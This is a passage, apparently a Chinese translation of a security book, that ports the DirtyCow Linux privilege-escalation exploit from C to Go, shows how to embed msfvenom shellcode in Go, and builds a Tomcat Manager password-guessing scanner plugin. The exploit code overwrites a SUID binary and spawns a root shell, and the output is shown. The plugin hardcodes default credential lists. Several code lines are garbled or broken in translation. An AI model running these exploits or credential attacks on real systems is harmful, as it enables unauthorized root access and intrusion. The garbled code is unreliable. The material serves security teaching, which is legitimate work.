0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00,
--snip--
0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
}
```
列表 9-7：Go 中的初始化

C 和 Go 之间的翻译相当直接。两个代码部分（C 和 Go）保持相同的编号，以演示 Go 如何实现与 C 相关行相同的功能。在两种情况下，你都通过定义 `uintptr` 变量来跟踪映射内存 ①。在 Go 中，你将变量命名为 `map`，与 C 不同，`map` 是 Go 中的保留关键字。然后你初始化一个变量用于信号线程停止处理 ②。与其像 C 代码那样使用整数，Go 的惯做法是使用缓冲布尔通道。你显式定义其长度为 2，因为有两个并发函数需要你发送信号。接下来，你为 SUID 可执行文件定义了一个字符串 ③，并通过将 shellcode 硬编码到切片中来封装你的全局变量 ④。与 C 版本相比，Go 代码省略了几个全局变量，这意味着你需要在相应的代码块中根据需要定义它们。

接下来，看看 `madvise()` 和 `procselfmem()`，这两个利用竞态条件的主要函数。再次，我们将比较列表 9-8 中的 C 版本与列表 9-9 中的 Go 版本。

```c
void *madviseThread(void *arg)
{
char *str;

str=(char*)arg;
int i,c=0;
for(i=0;i<1000000 && !stop;i++) {
```


## C 语言中的竞态条件函数

```c
  c+=madvise(map,100,MADV_DONTNEED);

}

printf("thread stopped\n");
```

```c
void *procselfThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<1000000 && !stop;i++) {
    lseek(f,map,SEEK_SET);
    c+=write(f,str,len);
  }
  printf("thread stopped\n");
}
```

**Listing 9-8:** C 语言中的竞态条件函数

## Go 语言中的竞态条件函数

```go
func madvise() {
  for i := 0; i < 1000000; i++ {
    select {
    case <- signals:
      fmt.Println("madvise done")
      return
    default:
      syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(0), syscall.MADV_DONTNEED)
    }
  }
}
```

```go
func procselfmem(payload [byte]) {
  f, err := os.OpenFile("/proc/self/mem",syscall.O_RDWR, 0)
  if err != nil {
    log.Fatal(err)
  }
  for i := 0; i < 100000; i++ {
    select {
    case <- signals:
		fmt.Println("procselfmem done")
		return
    default:
		syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET))
		f.Write(payload)
  }
  }
}
```

**Listing 9-9:** Go 语言中的竞态条件函数

这些竞态条件函数使用了不同的信号机制。两个函数都包含了循环多次的 `for` 循环。`C` 版本检查 `stop` 变量的值，而 `Go` 版本则使用 `select` 语句尝试从 `signals` 通道读取数据。当信号存在时，函数返回。在没有信号在等待的情况下，执行 `default` 分支。`madvise()` 和 `procselfmem()` 函数之间的主要区别出现在 `default` 情况中。在我们的 `madvise()` 函数中，你发布了一个 Linux 系统调用执行 `execute()`，而 `procselfmem()` 函数则发布了 Linux 系统调用 `lseek()` 并将你的负载 写入内存。

以下是这些函数的 `C` 版本和 `Go` 版本之间的主要区别：

- `Go` 版本使用通道（`channel`）来确定何时提前跳出循环，而 `C` 函数则使用一个整数值在线程竞态条件发生后信号指示何时退出循环。
- `Go` 版本使用 `syscall` 包来发布 Linux 系统调用。传递给函数的参数包括要调用的系统函数及其所需的参数。你可以通过搜索 Linux 文档找到函数的名称、用途和参数。这就是我们能够调用原生函数的方法。

现在，让我们回顾 `wait()` 函数，该函数监控 SUID 是否发生变化以便执行 shellcode。`C` 版本如 **Listing 9-10** 所示，`Go` 版本如 **Listing 9-11** 所示。

## C 语言中的 `waitForWrite()` 函数

```c
void*waitForWrite(void *arg) {
char buf[sc_len];
for(;;) {
  FILE *fp = fopen(suid_binary, "rb");
  fread(buf, sc_len, 1, fp);
  if(memcmp(buf, sc, sc_len) == 0) {
    printf("%s is overwritten\n", suid_binary);
    break;
  }
  fclose(fp);
  sleep(1);
}
stop = 1;
  printf("Popping root shell.\n");
  printf("Don't forget to restore /tmp/bak\n");
  system(suid_binary);
}
```

**Listing 9-10:** C 语言中的 `waitForWrite()` 函数

## Go 语言中的 `waitForWrite` 函数

```go
func waitForWrite() {
buf := make([]byte, len(sc))
for ( {
  f, err := os.Open(SuidBinary)
  if err != nil {
    log.Fatal(err)
  }
  if _, err := f.Read(buf); err != nil {
    log.Fatal(err)
  }
  f.Close()
  if bytes.Compare(buf, sc) == 0 {
    fmt.Printf("%s is overwritten\n", SuidBinary)
    break
  }
  time.Sleep(1*time.Second)
}
signals <- true
signals <- true
fmt.Println("Popping root shell")
fmt.Println("Don't forget to restore /tmp/bak\n")
attr := os.ProcAttr{
Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
}
proc, err := os.StartProcess(SuidBinary, nil, &attr)
if err != nil {
  log.Fatal(err)
}
proc.Wait()
os.Exit(0)
```

**Listing 9-11:** Go 语言中的 `waitForWrite` 函数

在两种情况下，代码都定义了一个无限循环来监控 SUID 文件的变化。`C` 版本使用 `memcmp()` 检查 shellcode 是否已写入目标，而 `Go` 代码使用 `bytes.Compare()`。当 shellcode 存在时，你将知道文件覆盖成功。然后跳出无限循环并通知运行中的线程可以停止。对于竞态条件，`Go` 版本通过通道实现，而 `C` 版本使用整数。最后，函数最好的部分是 SUID 目标文件现在包含了你的恶意代码。`Go` 版本有点冗长，因为你需要分别对应 `stdin`、`stdout` 和 `stderr` 描述符。

现在让我们来看 `main()` 函数，它调用了执行此漏洞所需的函数。**Listing 9-12** 显示了 `C` 版本，**Listing 9-13** 显示了 `Go` 版本。

## C 语言中的 `main()` 函数

```c
int main(int argc, char *argv[]) {
    char *backup;
    printf("Dirty privilege\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);
    sprintf(f, "cp %s /tmp/bak\n", suid_binary);
    system(backup);
    f = open(suid_binary,O_RDONLY);
    fstat(f, &st);
    printf("Size of binary: %d\n", st_size);
    char payload[st_size];
    memset(payload, 0x90, st_size);
    memcpy(payload, sc, sc_len);
    map = mmap(NULL,st_size,PROT_READ,MAP_PRIVATE,f,0);
    printf("Racing, this may take while.\n");
    thread_create(&pthread1, NULL, &advisiseThread, suid_binary);
    thread_create(&pthread2, NULL, &procselfmemThread, payload);
    thread_create(&pthread3, NULL, &waitForWrite, NULL);
    return 0;
}
```

**Listing 9-12:** C 语言中的 `main()` 函数

## Go 语言中的 `main()` 函数

```go
func main() {
    fmt.Println("DirtyCow escalation")
    fmt.Printf("Backing up %s to /tmp/bak\n", SuidBinary)
    backup := exec.Command("cp", SuidBinary, "/tmp/bak")
    if err := backup.Run(); err != nil {
        log.Fatal(err)
    }
    f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600)
    if err != nil {
        log.Fatal(err)
    }
    st, err := f.Stat()
    if err != nil {
        log.Fatal(err)
    }
    fmt.Printf("Size of binary: %d\n", st.Size())
    payload := make([]byte, st.Size())
    for i, _ := range payload {
        payload[i] = 0x90
    }
    for i, v := range sc {
        payload[i] = v
    }
    map, _ = syscall.Syscall6(
        syscall.SYS_MMAP,
        uintptr(0),
        uintptr(st.Size()),
        uintptr(syscall.PROT_READ),
        uintptr(syscall.MAP_PRIVATE),
        uintptr(f.Fd()),
        0,
    )
    fmt.Println("Racing, this may take while.\n")
    go madvise()
    go proc_selfmem(payload)
    waitForWrite()
}
```

**Listing 9-13:** Go 语言中的 `main()` 函数

## 完整的 Go 移植

```go
syscall.MADV_DONTNEED)
  }
}
```

```go
func procselfmem(payload []byte) {
  f, err := os.Open("/proc/self/mem", syscall.O_RDWR, 0)
  if err != nil {
    log.Fatal(err)
  }
  for i := 0; i < 1000000; i++ {
    select {
    case <- signals:
      fmt.Println("procselfmem done")
      return
    default:
      syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET))
      f.Write(payload)
    }
  }
}
```

```go
func waitForWrite() {
  buf := make([]byte, len(sc))
  for {
    f, err := os.Open(SuidBinary)
    if err != nil {
      log.Fatal(err)
    }
    if _, err := f.Read(buf); err != nil {
      log.Fatal(err)
    }
    f.Close()
    if bytes.Compare(buf, sc) == 0 {
      fmt.Printf("%s is overwritten\n", SuidBinary)
      break
    }
    time.Sleep(1*time.Second)
  }
}
signals <- true
```

```go
signals <- true
fmt.Println("Popping root shell")
fmt.Println("Don't forget to restore /tmp/bak")
ttr := os.ProcAttr{
  Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
}
nproc, err := os.StartProcess(SuidBinary, nil, &attr)
if err != nil {
  log.Fatal(err)
}
nproc.Wait()
sos.Exit(0)
```

```go
func main() {
  fmt.Println("DirtyCow root privilege escalation")
  fmt.Printf("Backing up %s.. to /tmp/bak", SuidBinary)
  backup := exec.Command("cp", SuidBinary, "/tmp/bak")
  if err := backup.Run(); err != nil {
    log.Fatal(err)
  }
  f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600)
  if err != nil {
    log.Fatal(err)
  }
  st, err := f.Stat()
  if err != nil {
    log.Fatal(err)
  }
  fmt.Printf("Size of binary: %d\n", st.Size())
  payload := make([]byte, st.Size())
  for i, _ := range payload {
    payload[i] = 0x90
```

```go
  }
  for i, v := range sc {
    payload[i] = v
  }
}
```

```go
map, _, _ = syscall.Syscall(
  syscall.SYS_MMAP,
  uintptr(0),
  uintptr(st.Size()),
  uintptr(syscall.PROT_READ),
  uintptr(syscall.MAP_PRIVATE),
  f.Fd(),
  0,
)
```

```go
fmt.Println("Racing, this may take a while.\n")
go madadvise()
go procselfmem(payload)
waitForWrite()
```

**列表 9-14:** 完整的 `Go` 移植 (`ch-9/dirtycow/main.go/`)

为了确认你的代码运行正常，请在受漏洞的主机上运行它。看到 root shell 会比什么都更有成就感。

```
alice@ubuntu:~ $ go run main.go

DirtyCow root privilege escalation

Backing up /usr/bin/passwd.. to /tmp/bak

Size of binary: 47032

Racing, this may take a while..
```

```
/usr/bin/passwd is overwritten

Popping root shell

procselfmem done

Don't forget to restore /tmp/bak
```

```
root@ubuntu:/home/alice#
```


如你所见，程序的成功运行执行了以下过程：它备份了 `/usr/bin/passwd` 文件，对句柄控制权进行竞争，用新预期的值覆盖文件位置，并最终产生系统 shell。Linux `id` 命令的输出显示 `alice` 用户账户已提升到 `uid=0` 值，表示具有 root 权限。

## 在 GO 中创建 SHELLCODE

在上一节中，你使用了有效 ELF 格式的原始 shellcode，用你的恶意替代品覆盖了合法文件。你如何自己生成这些 shellcode 呢？事实证明，你可以使用常用的工具集来生成 Go Friend 的 shellcode。

我们将向你展示如何使用命令行工具 `msfvenom` 完成此操作，教给你的集成技术并不特定于某种工具。你可以使用多种方法来处理外部二进制数据（无论是 shellcode 还是其他），并将其集成到你的 Go 代码中。请放心，后续章节更多涉及通用的数据表示，而不是任何特定于工具的内容。

Metasploit Framework 是一个流行的利用和后渗透测试工具包，它带了 `msfvenom`，该工具可以生成并转换 Metasploit 可用的任何 payload 到通过 `-f` 参数指定的多种格式。遗憾的是，目前没有明确的 Go 转换格式。不过，通过细小的调整，很容易地将几种格式集成到你的 Go 代码中。我们在这里探索五种格式：C、hex、num、raw 和 Base64，同时我们的目标是在 Go 中创建一个字节 slice。

### C 转换

如果你指定 C 转换，`msfvenom` 将产生可以直接放入 C 代码的格式 payload。由于本章之前 C 和 Go 之间有很多相似之处，这似乎是一个逻辑选择。然而它并不是 Go 的最佳选择。为了说明原因，请看示例格式：

```c
unsigned char buf[] = "\xfc\xe8\x82\x00\x00\x89\x60\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x72\0";
```

我们只关心 payload。为了使其适用于 Go，你需要移除分号和换行符。这意味着你需要显式地在每一行的末尾添加或移除换行符以生成一个长字符串。对于小的 payload，这可以接受，但对于较大的 payload，手动操作会非常繁琐。为了创建一个 byte slice，你会输入类似：

```go
payload := []byte("\xfc\xe8\x82...")
```

这不是一个坏方案，但你可以做得更好。

### Hex 转换

改进之前的尝试，让我们看看 hex 转换。使用这种格式，`msfvenom` 会产生一个连续的十六进制字符字符串：

```
ce88200000689531c064b50308b520c8b72280fb4a260
```

这个格式看起来很熟悉，是因为你在移植 Java 反序列化漏洞时用过它。传递给 `hex.DecodeString()` 调用，会返回一个 byte slice 和错误详情。你可以这样使用它：

```go
payload, err := hex.DecodeString("ce88200000689531c064b50308b520c8b5214b72280fb4a260")
```

将其转换为 Go 非常简单。你只需要给字符串加上引号并将其传递给函数。然而，大型 payload 会产生超出建议页边界的字符串。你可能仍然想使用这种格式，但如果你希望代码既实用又美观，我们提供了第三种替代方案。

### Num 转换

`num` 转换产生逗号分隔的数值十六进制格式字节列表：

```
0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x64, 0x00
```

你可以在 byte slice 的直接初始化中使用此输出，如下：

```go
payload := []byte{
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b,
  0x50, 0x30,
  0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0x4a, 0x26,
  0x31, 0xff,
  0x64, 0x00
}
```

因为输出是逗号分隔的，所以字节列表可以很好地跨行换行，而不需要笨拙地追加数据集。唯一修改是在列表的最后一个元素后添加单个逗号。这种输出格式可以很容易地集成到你的 Go 代码中，并且格式化得良好。

### Raw 转换

`raw` 转换以原始二进制格式产生 payload。数据本身如果将在终端上显示，可能会产生像这样的不可打印字符：

```
[二进制乱码]
```

除非产生不同的格式，否则你无法在代码中使用这些数据。那么，你可能会问，为什么甚至在讨论二进制数据？嗯，因为遇到原始二进制数据是非常常见的，无论是工具生成的 payload、二进制文件的内容还是加密密钥。识别二进制数据并将其纳入 Go 代码的知识将证明非常有价值。

类似于 C 语言的输出，生成的 payload 包含了换行符，将其作为字符串包含在代码之前，你需要对其进行处理。你可以使用 Linux 中的 `tr` 工具来清理输出，移除所有的换行符：

```
$ msfven -p [payload] [options] -f raw base64 | tr -d "\n"
```

编码后的 payload 现在将作为一个连续的字符串存在。在你的 Go 代码中，你可以通过解码字符串获取原始 payload 的字节切片（byte slice）。你使用 `encoding/base64` 包来完成任务：

```
payload, err :=
base64.StdEncoding.DecodeString("/OiAAAAAYInlMcBki1Awi...WFuZAA=")
```

现在你就有了处理原始二进制数据的能力，而无需受这些混乱格式的影响。

### 关于汇编的说明

关于 shellcode 和低级编程的讨论，如果不提到汇编是不完整的。遗憾的是对于 shellcode 编写者和汇编艺术家来说，Go 与汇编的集成非常有限。与 C 语言不同，Go 不支持内联汇编。如果你想将汇编集成到你的 Go 代码中，你可以做到，某种程度上可以。你本质上需要在 Go 中定义一个函数原型，并在单独的文件编写汇编指令。然后你运行 `build` 来编译并链接你的最终可执行文件。虽然这看起来可能并不不可畏，但问题在于汇编语言本身。Go 只支持基于 Plan 9 操作系统的汇编变体。该系统是由贝尔实验室创建的，并在 20 世纪后期使用。汇编语法（包括可用的指令和操作码（opcodes））几乎不存在。这使得编写纯正的 Plan 9 汇编成为了一项艰巨的任务，甚至可以说几乎是不可能的。

## 总结

尽管缺乏汇编的可用性，但 Go 的标准包提供了大量的功能，对漏洞狩猎者和漏洞开发人员非常有帮助。本章涵盖了模糊测试（fuzzing）。作为一个额外的学习练习，我们鼓励你探索 [https://www.exploit-db.com/](https://www.exploit-db.com/) 上的漏洞数据库，并尝试将一个现有的漏洞移植到 Go。取决于你对源语言的熟悉程度，这项任务看起来可能非常繁重，但它是一个理解数据操作、网络通信和低级系统交互的绝佳机会。

在下一章中，我们将远离利用活动，专注于制作可扩展的工具集。

# 10 GO 插件与可扩展工具


许多安全工具是以框架的形式构建的——核心组件使用某种抽象级别构建，这允许你轻松地扩展其功能。如果你想想，这对于安全从业人员来说非常有意义。行业在不断变化；社区总是在发明新的漏洞和技术来规避检测，创造了一个高度动态且在某种程度上不可预测的格局。然而，通过使用插件和扩展，工具开发者可以在某种程度上使他们的产品具有面向未来的能力。通过重用工具的组件而不必进行繁重的重写，他们可以通过插拔系统优雅地处理行业的演进。

这，加上大量的社区参与，可以说是 Metasploit Framework 能够保持如此长久生命力的原因。事实上，甚至像 Tenable 这样的商业企业也看到了创建可扩展产品的价值；Tenable 依赖于基于插件的系统来在其 Nessus 漏洞扫描器中执行签名检查。

在本章中，你将用 Go 创建两个漏洞扫描器扩展。你首先将使用原生的 Go 插件系统并显式地将代码编译为共享对象（shared object）。然后你将使用嵌入的 Lua 系统重新构建同一个插件，该系统早于原生 Go 插件系统。请记住，与 Java 和 Python 等其他语言创建插件不同，在 Go 中创建插件是一个相当新的概念。原生支持插件直到 Go 1.8 版本才出现。此外，直到 Go 1.10 你才能将这些插件创建为 Windows 动态库文件（DLL）。确保你运行最新版本的 Go，以便本章中的所有示例都能按预期工作。

## 使用 Go 的原生插件系统

在 Go 1.8 版本之前，该语言不支持插件或动态运行时代码的可扩展性。虽然 Java 等语言允许你在执行程序时加载类或 JAR 文件以实例化导入的类型并调用其函数，但 Go 并没有提供这种奢侈。虽然你有时可以通过接口实现等方式扩展功能，但你无法真正地动态地加载和执行代码本身。相反，你需要在编译期间正确地包含它。例如，没有办法复制此处所示的 Java 功能，该功能可以从文件中动态加载类、实例化类并在实例上调用 `someMethod()`：

```java
File file = new File("/path/to/classes");
URL[] urls = new URL[1]{file.toURL()};
nClassLoader cl = new URLClassLoader(urls);
Class clazz = cl.loadClass("com.example.MyClass");
clazz.Constructor().newInstance().someMethod();
```

幸运的是，Go 的后续版本具有模拟这种功能的能力，允许开发者显式编译代码以作为插件使用。尽管存在限制。具体来说，在 1.10 版本之前，插件系统仅在 Linux 上运行，因此你必须将你的可扩展框架部署在 Linux 上。

Go 的插件在构建过程中被创建为共享对象。为了生成此共享对象，你输入以下构建命令，将插件作为 `buildmode` 选项提供：

```
$ go build -buildmode=plugin
```

或者，要构建 Windows DLL，请使用 `c-shared` 作为 `buildmode` 选项：

```
$ go build -buildmode=c-shared
```

要构建 Windows DLL，你的程序必须符合某些约定以导出函数，并且必须导入 `c` 库。我们将在让你探索这些细节。在本章中，我们将几乎完全关注 Linux 插件变体，因为我们将在 12 章演示如何加载和使用 DLL。

在你编译为 DLL 或共享对象后，另一个程序可以在运行时加载并使用插件。任何导出的函数都是可用的。要与共享对象的导出功能交互，你将使用 Go 的 `plugin` 包。该包的功能非常直观。使用插件请遵循以下步骤：

1. 调用 `plugin.Open(filename string)` 打开共享对象文件，创建一个 `*plugin.Plugin` 实例。
2. 在 `*plugin.Plugin` 实例上调用 `Lookup(symbolName string)` 根据名称检索符号（即导出变量或函数）。
3. 使用类型断言将通用符号转换为程序所需的类型。
4. 根据需要使用转换后的对象。

你可能注意到调用 `Lookup()` 需要消费者提供符号名称。这意味着消费者必须有一个预定义的、且应该是公开的命名方案。将其看作几乎是一个定义的 API 或通用接口，插件将据此遵循它。如果没有标准的命名方案，新的插件将要求你修改消费者代码，这违背了基于插件系统的整个初衷。

现在让我们开始创建你的插件漏洞扫描器。每个插件将实现它自己的签名检查逻辑。你的主扫描器程序将通过从文件系统的单个目录中读取插件来启动过程。

## 创建主程序

让我们从主程序开始，你将在其中挂载你的插件。这将帮助你理解编写插件的过程。请设置你的仓库目录结构，使其与此处所示：

```
$ tree

.\.
--- scanner
    --- main.go
    --- plugins
--- scanner
    --- scanner.go
```

名为 `cmd/scanner/main.go` 的文件是你的命令行工具。它将加载插件并启动扫描。`plugins` 目录将包含所有你动态加载的共享对象，这些对象将用于调用各种漏洞签名检查。你将使用 `scanner/scanner.go` 文件来定义插件和主扫描器使用的类型。你将这些数据放在它自己的包中，以便于更容易使用。

列表 10-1 显示了你的 `scanner.go` 文件的内容。（`/` 根目录下的所有代码列表都存在提供的 GitHub 仓库 [https://github.com/blackhat-go/bhg.](https://github.com/blackhat-go/bhg.) 中。）

```go
package scanner

// Scanner 定义了一个所有检查都遵循的接口

type Checker interface {
    // Check(host string, port uint64) *Result
}

// Result 定义了检查的结果

type Result struct {
    Vulnerable bool
    Details    string
}
```

列表 10-1：定义核心扫描器类型 (`/ch-10/plugin-core/scanner/scanner.go`)。

在名为 `scanner` 的包中，你定义了两个类型。第一个名为 `Checker` 的接口。该接口定义了一个名为 `Check()` 方法，它接受一个主机和一个端口值，并返回一个 `Result` 指针。你的 `Result` 类型被定义为一个结构体。它的目的是跟踪检查的结果。服务是否存在漏洞？在记录、验证或利用该漏洞时，哪些细节是相关的？

你将该接口视为某种合约或蓝图；插件可以自由地选择任何方式实现 `Check()` 函数，只要它返回一个 `Result` 指针即可。插件实现的的逻辑将根据每个插件的漏洞检查逻辑而异。例如，检查 Java 反序列化问题的插件可以实现相应的 HTTP 调用，而检查默认 SSH 凭据的插件可以实现针对 SSH 服务的密码猜测攻击。抽象的力量！

接下来，让我们查看 `cmd/scanner/main.go`，它将消耗你的插件（列表 10-2）。

```go
const PluginsDir = "../plugins/" 

func main() {
	var (
		files []os.FileInfo
		err error
		p *plugin.Plugin
		n plugin.Symbol
		check scanner.Checker
		res *scanner.Result
	)

	if files
}
```

列表 10-2：运行插件的扫描器客户端 (`/ch-10/plugin-core/cmd/scanner/main.go`)

遍历这些插件文件每一个。对于每个文件，你使用 Go 的 `plugin` 包通过调用 `plugin.Open()` 来读取插件。如果执行成功，你将获得一个 `*plugin.Plugin` 实例，你将其赋值给变量 `p`。你调用 `p.Lookup("New")` 来在你的插件中搜索一个名为 `New` 的符号。

正如我们早早在高层概述中提到的，这种符号查找约定要求你的主程序提供符号的显式名称作为参数，这意味着你期望插件具有同名的导出符号——在这种情况下，我们的主程序正在寻找名为 `New` 的符号。此外，正如你很快将看到的，代码期望该符号是一个函数，它将返回你的 `scanner.Checker` 接口的具体实现，我们在上一节中讨论过它。

假设你的插件包含一个名为 `New` 的符号，当你尝试将其转换为 `func() scanner.Checker` 时，对该符号进行类型断言。也就是说，你期望该符号是一个返回实现 `scanner.Checker` 对象的函数。你将转换后的值赋值给变量 `NewFunc`。然后你调用它并将返回值赋值给变量 `check`。得益于你的类型断言，你知道 `check` 满足你的 `scanner.Checker` 接口，因此它必须实现一个 `Check()` 函数。你调用它并传入目标主机和端口。结果（一个 `*scanner.Result`）使用变量 `res` 进行捕获，并进行检查以确定服务是否存在漏洞。

注意，这个过程是通用的；它使用类型断言和接口来创建一个结构，你通过该结构可以动态调用插件。代码中没有任何内容是特定于单一漏洞签名或用于检查漏洞存在的方法。相反，你已经足够抽象了功能，使得插件开发者可以创建独立的插件来执行单元工作，而无需了解其他插件——甚至无需深入了解调用应用程序。插件作者必须关心的只有正确地创建导出的 `New()` 函数和一个实现 `scanner.Checker` 的类型。让我们来看一个恰恰执行这些操作的插件。

## 构建密码猜测插件

此插件（列表 10-3）对 Apache Tomcat Manager 登录端口执行密码猜测攻击。该攻击者的喜爱目标，通常配置为接受容易猜测的凭据。有了有效凭据，攻击者可以可靠地在底层系统中执行任意代码。这对于攻击者来说是一个小胜利。

在我们代码审查中，我们不会涵盖漏洞测试的具体细节，因为实际上只是向特定 URL 发出的系列 HTTP 请求。相反，我们将主要关注于满足可插扫描器的接口要求。

```go
import (
	// 为了简洁省略了部分代码
)
```


`"github.com/bhg/ch-10/plugin-core/scanner"`

)

`var Users = []string("admin", "manager", "tomcat")`

`var Passwords = []string("admin", "manager", "tomcat", "password")`

`// TomcatChecker 实现 scanner.Check 接口。用于猜测 Tomcat 凭据`

```go
type TomcatChecker struct {

// Check 尝试识别可猜测的 Tomcat 凭据

func (c *TomcatChecker) Check(host string, port uint64) (*scanner.Result, error) {

	var (

		resp *http.Response

		err error

		url string

		client *http.Client

		req *http.Request

	)

	log.Println("Checking for Tomcat Manager...")

	res := new(scanner.Result)

	url = fmt.Sprintf("http://%s:%d/manager/html", host, port)

	if resp, err := http.Head(url); err != nil {

		log.Printf("HEAD request failed: %s\n", err)

		return res

	}

	log.Println("Host responded to /manager/html")

	if resp.StatusCode == http.StatusUnauthorized || resp.Header.Get("WWW-Authenticate") == "" {

		log.Println("Target doesn't appear to require Basic auth.")

		return res

	}
```

```go
// 似乎需要认证。假设是 Tomcat manager...

log.Println("Host requires authentication. Proceeding with password guessing...")

client := new(http.Client)

if req, err := http.NewRequest("GET", url, nil); err != nil {

	log.Println("Unable to build GET request")

	return res

}

for _, user := range Users {

	for _, password := range Passwords {

		req.SetBasicAuth(user, password)

		if resp, err := client.Do(req); err != nil {

			log.Println("Unable to send GET request")

			continue

		}

		if resp.StatusCode == http.StatusOK { 

			res.Vulnerable = true

			res.Details = fmt.Sprintf("Valid credentials found - %s:%s", user, password)

			return res

		}

	}

}

return res

}

// New 是 scanner 要求的入口点

func New() scanner.Checker {

  return new(TomcatChecker)

}
```

你将`res.Vulnerable`设置为`true`，并将`res.Details`设置为包含已识别出的凭据的消息。如果没有识别出漏洞，返回的实例的`res.Vulnerable`将被设置为默认状态——`false`。

最后，你定义了所需的导出函数`New() *scanner.Checker`。这符合了你的扫描器的`Lookup()`调用的预期，也符合了实例化插件定义的`TomcatChecker`所需的类型断言和转换。这个基础入口点仅仅是返回一个新的`*TomcatChecker`（由于它实现了所需的`Check()`方法，因此它恰好是一个`scanner.Checker`）。

## 运行扫描器

现在你已经创建了插件以及使用它的主程序，使用`-o`选项编译你的插件，将编译后的共享对象指向扫描器的插件目录：

```
$ go build -buildmode=plugin -o /path/to/plugins/tomcat.so
```

然后运行你的扫描器（`cmd/scanner/main.go`）以确认它识别了插件、加载了插件并执行了插件的`Check()`方法：

```
$ go run main.go

Found plugin: tomcat.so

for Tomcat Manager...

2020/01/15 15:45:18 Host responded to /manager/html request

2020/01/15 15:45:18 Host requires authentication. Proceeding with password guess...

2020/01/15 15:45:18 Host is vulnerable: Valid credentials found - tomcat:tomcat
```

看到了吗？它工作了！你的扫描器能够调用你插件中的代码。你可以向插件目录放入任意数量的其他插件。你的扫描器将尝试读取每个插件并启动漏洞检查功能。

我们开发的代码可以从许多改进中受益。我们将这些改进留给你们作为练习。我们鼓励你尝试几件事：

- 1. 创建一个检查不同漏洞的插件。
- 2. 增加动态提供主机列表及其开放端口的能力，以进行更广泛的测试。
- 3. 增强代码仅调用适用于插件。目前，代码会为给定的主机和端口调用所有插件。这并不理想。例如，如果目标端口不是`HTTP`或`HTTPS`，你不希望调用`Tomcat`检查器。
- 4. 将你的插件系统转换为在`Windows`上运行，使用`DLL`作为插件类型。

在下一节中，你将在一个不同的、非官方的插件系统中：`Lua`中构建相同的漏洞检查插件。

## 使用 Lua 构建插件

在创建可插拔程序时使用`Go`原生的`buildmode`特性具有局限性，特别是因为它的移植性不高，这意味着插件可能无法很好地交叉编译。在本节中，我们将查看一种通过`Lua`创建插件来克服这一缺陷的方法。`Lua`是一种用于扩展各种工具的脚本语言。该语言本身容易嵌入、强大、快速且文档齐全。`Nmap`和`Wireshark`等安全工具使用它来创建插件，就像你现在要做的那样。更多信息，请参考官方网站`https://www.lua.org/`。

要在`Go`中使用`Lua`，你将使用第三方包`gopher-lua`，它能够在`Go`中直接编译和执行`Lua`脚本。通过输入以下命令在你的系统上安装它：

```
$ get github.com/yuin/gopher-lua
```

现在，要考虑到为了移植性所付出的代价是复杂性的增加。这是因为`Lua`没有隐式方法调用你程序或各种`Go`包中的函数，并且不知道你的数据类型。为了解决这个问题，你必须在两种设计模式中选择一个：

- 调用你`Lua`插件中的单一入口点，让插件通过其他`Lua`包调用任何辅助方法（例如发布`HTTP`请求所需的方法）。这使得你的主程序变得简单，但降低了移植性，并可能使依赖管理变成噩梦。例如，如果一个`Lua`插件需要一个未作为核心`Lua`包安装的第三方依赖会怎样？当你将插件移动到另一个系统时，它就会崩溃。此外，如果两个独立的插件需要不同版本的包怎么办？
- 在你的主程序中，封装辅助函数（例如来自`net/http`包的函数），并暴露一个面具（façade），插件可以通过该面具进行交互。这当然需要你编写大量的代码来暴露所有的`Go`函数和类型。但是，一旦你写了代码，插件就可以以一致的方式重用它。你可以大可以不用使用第一种设计模式时可能遇到的`Lua`依赖问题（尽管当然，始终存在插件使用第三方库并导致某些问题问题的可能）。

在本节的剩余部分中，你将采用第二种设计模式。你将封装`Go`函数，以暴露一个你的`Lua`插件可以访问的面具。这是两种解决方案中较好的（而且，“façade”这个词听起来就像你正在构建某些非常高级的东西）。

在本次练习期间，加载和运行插件的引导核心`Go`代码将存在单个文件中。为了简单起见，加载和运行插件的引导核心`Go`代码将存在单个文件中。（*注：原文此处存在大量重复文本，译文已按要求去重处理*）

## 创建 get() 函数

接下来，你将创建`get()`函数，它与之前的示例一样，封装了`net/http`包的功能。在这种情况下，你将发布一个`HTTP GET`请求。除了此以外，`get()`函数与你的`head()`函数使用了相似的结构，向你的目标端点发布`HTTP`请求。

输入`Listing 10-5`中的代码。

```go
func get(l *lua.L.State) int {
    var (
        host string
        port uint64
        username string
        password string
        path string
        resp *http.Response
        err error
        url string
        client *http.Client
        req *http.Request
    )

    host = l.CheckString(1)
    port = uint64(l.CheckInt64(2))
    username = l.CheckString(3)
    password = l.CheckString(4)
    path = l.CheckString(5)
    url = fmt.Sprintf("http://%s:%d/%s", host, port, path)
    client = new(http.Client)

    if req, err = http.NewRequest("GET", url, nil); err != nil {
        l.Push(lua.LNumber(0))
        l.Push(lua.LBool(false))
        l.Push(lua.LString(fmt.Sprintf("Unable to build GET request: %s", err)))
        return 3
    }

    if username != "" {
        // Assume Basic Auth is required since user and password is set
        req.SetBasicAuth(username, password)
    }

    if resp, err = client.Do(req); err != nil {
        l.Push(lua.LNumber(0))
        l.Push(lua.LBool(false))
        l.Push(lua.LString(fmt.Sprintf("Unable to send GET request: %s", err)))
        return 3
    }

